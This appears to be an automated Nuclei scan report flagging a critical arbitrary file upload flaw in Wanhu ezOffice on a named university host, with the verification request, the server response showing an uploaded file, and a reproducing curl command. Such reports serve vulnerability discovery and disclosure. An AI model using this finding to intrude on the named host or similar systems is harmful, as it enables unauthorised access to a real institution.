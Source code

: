 ### 万户ezoffice officeserver 任意文件上传 (wanhu-ezoffice-officeserver-fileupload) found on ezoffice.hrbipe.edu.cn:7001

----
**Details**: **wanhu-ezoffice-officeserver-fileupload** matched at ezoffice.hrbipe.edu.cn:7001

**Protocol**: HTTP

**Full URL**: http://ezoffice.hrbipe.edu.cn:7001/defaultroot/public/upload/2pKO9LzgqIgJNUoTD2p30TL6fQm.txt

**Timestamp**: Mon Nov 25 13:05:58 +0800 CST 2024

**Template Information**

| Key | Value |
| --- | --- |
| Name | 万户ezoffice officeserver 任意文件上传 |
| Authors | wuha |
| Tags | wanhu, oa, fileupload, ezoffice |
| Severity | critical |
| Description | 万户ezoffice officeserver 任意文件上传 |

**Request**
```http
GET /defaultroot/public/upload/2pKO9LzgqIgJNUoTD2p30TL6fQm.txt HTTP/1.1
Host: ezoffice.hrbipe.edu.cn:7001
User-Agent: Moziilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Connection: close
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 15
Content-Type: text/plain
Date: Mon, 25 Nov 2024 05:05:58 GMT
Etag: W/"15-1732511158567"
Last-Modified: Mon, 25 Nov 2024 05:05:58 GMT
Server: 
Set-Cookie: OASESSIONID=192A769E27B39AA0A0F4243573E2CE05; Path=/defaultroot
X-Frame-Options: SAMEORIGIN

www.cnvd.org.cn
```

References: 
- none

**CURL command**
```sh
curl -X 'GET' -d '' -H 'Host: ezoffice.hrbipe.edu.cn:7001' -H 'User-Agent: Moziilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36' 'http://ezoffice.hrbipe.edu.cn:7001/defaultroot/public/upload/2pKO9LzgqIgJNUoTD2p30TL6fQm.txt'
```

----

Generated by [Nuclei v3.2.7](https://github.com/projectdiscovery/nuclei)
